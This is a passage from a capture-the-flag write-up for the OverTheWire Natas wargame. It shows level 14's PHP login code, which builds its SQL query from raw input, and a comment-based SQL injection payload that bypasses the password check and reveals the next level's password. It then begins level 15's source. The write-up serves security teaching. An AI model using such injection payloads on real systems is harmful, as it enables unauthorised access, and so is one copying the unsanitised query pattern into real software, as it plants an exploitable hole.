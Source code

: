 Upon clicking on the view source code, there is a php code within:

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

It seems like there is a SQL query in the code that does not have any code sanitization. There is also an interesting debug code which allows you to view the query executed. Therefore, let's add `?debug` to the back of the url and send a request of `username:natas15` and `password:password`.

```
<div id="content">
Executing query: SELECT * from users where username="natas15" and password="password"<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Now, let's try using `username:natas15"#` instead. What we are trying to do here is to ask SQL to return us the row with `username:natas15` and comment out the rest of the code to make it valid.

```
<div id="content">
Executing query: SELECT * from users where username="natas15"#" and password="password"<br>Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

# Level 15

This challenge is similar to Level 14 but with a twist - you can only check if the username exists.
Upon clicking on the view source code, there is a php code within:

```
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
```